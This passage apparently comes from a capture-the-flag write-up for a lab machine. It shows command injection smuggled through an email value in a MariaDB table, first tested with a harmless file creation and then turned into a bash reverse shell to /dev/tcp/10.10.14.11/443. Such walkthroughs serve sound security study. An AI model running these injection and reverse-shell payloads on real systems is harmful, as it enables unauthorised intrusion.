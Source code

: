 Next, I’ll upload a file to `messages` over FTP (any file):

```

lftp ftpadm@ftp.crossfit.htb:/messages> put test.txt
35 bytes transferred    

```

And add the injection:

```

MariaDB [crossfit]> insert into users(email) values('--wrong || touch /dev/shm/0xdf');
Query OK, 1 row affected (0.001 sec)

```

The `watch` updates showing the new user added:

```

Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:21:33 2021

Tue Jan 26 17:21:33 EST 2021
id      email
52      0xdf@crossfit.htb
81      --wrong || touch /dev/shm/0xdf

```

When the minute rolls around, the `watch` updates and the injection email is gone:

```

Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:22:16 2021

Tue Jan 26 17:22:16 EST 2021
id      email
52      0xdf@crossfit.htb
0xdf

```

The file `0xdf` showed up in `/dev/shm`. The injection worked.

### Shell

Now I’ll just update the injection to return a reverse shell:

```

MariaDB [crossfit]> insert into users(email) values('--wrong || bash -c "bash -i &> /dev/tcp/10.10.14.11/443 0>&1"');
Query OK, 1 row affected (0.002 sec)

```
